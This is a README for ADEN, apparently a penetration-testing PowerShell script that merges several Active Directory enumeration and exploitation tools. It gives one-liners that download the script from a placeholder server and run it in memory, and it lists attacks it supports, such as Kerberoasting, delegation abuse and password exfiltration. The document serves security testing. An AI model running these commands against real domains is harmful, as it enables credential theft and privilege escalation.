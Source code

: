 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL
- New-GPOImmediateTask


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
If you are launching the script for the first time, the function ```Invoke-FullEnum``` is the recommended option as it will launch a full enumeration that will allow you to initially map the environment.\
\
From another domain user, the function ```Invoke-AdminEnum``` is recommended as it will launch only the relevant enumeration checks.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- Linked MSSQL Instances Abuse
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration
- Recursive search of privileged groups

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers, OUs
- Readable Shares
